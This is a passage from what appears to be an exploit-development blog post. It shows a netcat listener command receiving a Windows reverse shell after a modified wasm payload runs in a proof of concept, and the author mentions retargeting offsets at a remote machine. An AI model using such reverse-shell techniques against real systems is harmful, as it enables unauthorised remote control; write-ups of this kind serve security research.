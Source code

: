 Swapping out the wasm for the above and running the poc again:
```
$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 192.168.1.254 56272
Microsoft Windows [Version 10.0.19045.5679]
(c) Microsoft Corporation. All rights reserved.                                                                                                                                                
C:\Users\eljay\Desktop>
```

SHELL!!

Now to change the offsets to run against the remote target and its another shell!

This blog is getting kind of long. So instead of trying to cram in the kernel driver I'm going to split it into 2 parts.


